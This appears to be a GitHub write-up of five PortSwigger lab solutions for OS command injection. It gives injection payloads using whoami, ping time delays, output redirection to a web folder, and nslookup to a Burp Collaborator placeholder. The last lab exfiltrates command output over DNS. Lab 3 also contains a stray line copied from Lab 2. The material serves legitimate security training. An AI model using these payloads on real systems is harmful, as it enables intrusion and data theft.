 **Lab #1: OS command injection, simple case**

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.

Use Burp Suite to intercept and modify a request that checks the stock level.
Modify the storeID parameter, giving it the value 1|whoami.
Observe that the response contains the name of the current user.

![WhatsApp Image 2023-05-08 at 15 14 59](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/50318e69-526e-4929-a0a9-3a4127068cb1)

![WhatsApp Image 2023-05-08 at 15 16 28](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/fe9a14b0-c371-4f44-b300-1afa01fbc3db)

**Lab #2: Blind OS command injection with time delays**

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

Use Burp Suite to intercept and modify the request that submits feedback.
Modify the email parameter, changing it to:

email=x||ping+-c+10+127.0.0.1||

![WhatsApp Image 2023-05-08 at 15 39 07](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b46b1f1c-0f96-47ec-9791-c867b71ba66c)

![WhatsApp Image 2023-05-08 at 15 40 04](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/7f7bd698-c766-4b9f-be68-9e8a3abb5770)

**Lab #3: Blind OS command injection with output redirection**

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

/var/www/images/
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

Use Burp Suite to intercept and modify the request that submits feedback.
Modify the email parameter, changing it to:

email=||whoami>/var/www/images/output.txt||
Now use Burp Suite to intercept and modify the request that loads an image of a product.
Modify the filename parameter, changing the value to the name of the file you specified for the output of the injected command:

filename=output.txt
Observe that the response contains the output from the injected command.

Observe that the response takes 10 seconds to return.

![WhatsApp Image 2023-05-08 at 15 47 44](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/c2211b39-1d7c-449c-8009-68a0f6d15653)

![WhatsApp Image 2023-05-08 at 21 32 25](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/cb318b94-0d01-4748-822e-379a8b830ed4)

![WhatsApp Image 2023-05-08 at 21 39 58](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/0b31994f-e8b7-4ee8-aba4-c4ea84b944cc)

![WhatsApp Image 2023-05-08 at 21 56 28](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/f40a1d95-fa72-430b-8cce-741b3ac84e72)

![WhatsApp Image 2023-05-08 at 21 57 12](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/2ae9d46d-2138-4076-9688-c28168f82458)

**Lab #4: Blind OS command injection with out-of-band interaction**

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

Use Burp Suite to intercept and modify the request that submits feedback.
Modify the email parameter, changing it to:

email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

![WhatsApp Image 2023-05-08 at 22 05 17](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/fdae3724-184c-4221-893a-4cd596f7bf89)

![WhatsApp Image 2023-05-08 at 22 22 26](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/ed33436a-ba01-4398-b803-d63af20905db)

![WhatsApp Image 2023-05-08 at 22 23 19](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/da13756a-d278-4206-ae2c-3ff396788e2c)

**Lab #5:Blind OS command injection with out-of-band data exfiltration**

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

Use Burp Suite Professional to intercept and modify the request that submits feedback.
Go to the Collaborator tab.
Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
Modify the email parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.
To complete the lab, enter the name of the current user.

![WhatsApp Image 2023-06-26 at 16 17 33](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b195a7ef-c8c8-4140-a776-d6d3009fad16)

![WhatsApp Image 2023-06-26 at 16 41 54](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/e87d6e1a-3393-4f97-b66f-850ddab3d538)

![WhatsApp Image 2023-06-26 at 16 42 15](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/6db50cf9-2b04-46dc-ab30-9e8ee93e655a)

![WhatsApp Image 2023-06-26 at 16 42 33](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/982d1c25-5bd2-4d21-8624-8568221975c8)
